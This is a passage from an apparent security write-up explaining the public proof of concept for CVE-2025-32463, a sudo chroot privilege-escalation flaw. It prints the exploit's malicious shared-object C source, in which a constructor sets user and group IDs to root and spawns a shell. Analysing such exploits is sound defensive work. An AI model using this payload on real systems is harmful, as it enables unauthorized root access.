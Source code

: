 ![Process Diagram](/assets/img/sudo-chroot-vulnerability/process-diagram.png)

And this is exactly how [the POC for this CVE](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/tree/main) works.

## Breaking down the PoC

The researchers essentially created their own shared object, named "woot1337.c":

``` c
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/sh", "sh", "-c", "${CMD_C_ESCAPED}", NULL);
}
```
